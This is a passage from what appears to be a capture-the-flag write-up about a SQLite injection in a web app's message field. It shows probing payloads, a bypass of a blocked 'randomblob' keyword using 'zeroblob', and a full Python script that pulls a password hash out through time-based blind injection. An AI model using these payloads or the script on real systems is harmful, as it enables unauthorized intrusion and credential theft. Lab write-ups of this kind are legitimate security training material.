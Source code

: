 Single quote gives an error message:

`message='` : `unrecognized token: "''')"`

Balanced single quotes are fine:

`message=''` : `OK`

With SQLite we can concatenate strings with the `||` operator:

`message='||'a` : `OK`

We  can also concatenate the result of a select statement (but we can't see the result with the web app):

`message='||(select 1)||'a` : `OK`

What we can do is a time-based attack by using the `randomblob` statement but as we can see that specific word is blocked in the code.

`(select case when (SELECT COUNT(*) FROM messages)=1 then randomblob(999999999) else 0 end))` : `forbidden word in message`

There's an alternative to this, we can use the `zeroblob` statement which will essentially do the same thing for us. Here we're testing a true condition (1=1) so the resulting CASE action will consume CPU cycles and introduce latency in the response.

`message='||(select case when 1=1 then zeroblob(999999999) else 0 end)||'a` : `string or blob too big` -> delay > 500 ms

In the following example, the condition is false so the statement returns 0 with no extra latency added.

`message='||(select case when 1=0 then zeroblob(999999999) else 0 end)||'a` : `OK`

We already know the table and column names so all we have to do is write a quick script that will test  every characters/position of the password field and extract the data. Depending on network conditions and server CPU utilization this code may introduce false positives so it is best to run it a few times to make sure the hash we get is not corrupted.

```python
#!/usr/bin/python3

import requests
import time

charset = 'abcdef0123456789'

pwd = ''
i = 1

while (True):
    for c in charset:
        data = {
            'message':"'||(select case when substr((select secret from users),%d,1)='%s' then zeroblob(999999999) else 0 end))--" % (i,c)
        }

        before = time.time()
        r = requests.post('http://10.10.10.195/submitmessage', data=data)
        after = time.time()
        delta = after - before
        if delta > 0.800:
            pwd = pwd + c
            print("Password: %s" % pwd)
            i = i + 1
            break
```
